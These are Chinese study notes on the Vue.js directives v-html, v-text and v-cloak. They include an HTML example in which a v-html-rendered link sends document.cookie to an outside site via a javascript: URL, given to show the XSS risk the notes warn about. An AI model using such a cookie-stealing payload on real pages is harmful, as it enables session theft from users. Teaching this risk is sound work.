 

```html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>Document</title>
</head>
<script src="../VuePack/vue.js"></script>
<body>
    <div id="root">
        <div>你好{{name}}</div>
        <div v-html="str"></div>
        <div v-html="str2"></div>
        
    </div>
</body>
<script>
    new Vue({
        el:'#root',
        data:{
            name:'嘉然',
            str:'<h1>你好<h2>',
            str2:'<a href=javascript:location.href="http://www.bilibili.com?"+document.cookie>点我</a>'
        }
    })
</script>
</html>
```



> v-html指令：

1. 作用：向指定节点渲染包含html结构的内容

2. 与插值语法区别

   1.v-html会替换掉节点中所有内容，{{xx}}不会

   2.v-html可识别html结构

3. v-html有安全性问题

   1.网站上动态渲染任意html非常容易导致xss攻击

   2.可信内容上使用v-html，不要用在用户提交的内容上

> v-text指令

1. 作用：向所在节点渲染文本内容
2. 与插值语法区别：v-text替换1节点的内容，{{xx}}不会

> v-cloak（没有值）

1. 本质是一个特殊属性，Vue实例创建完毕并接管容器后，会删掉v-cloak属性
2. 使用css配合v-cloak可解决网速慢时页面展示出{{xxx}}的问题
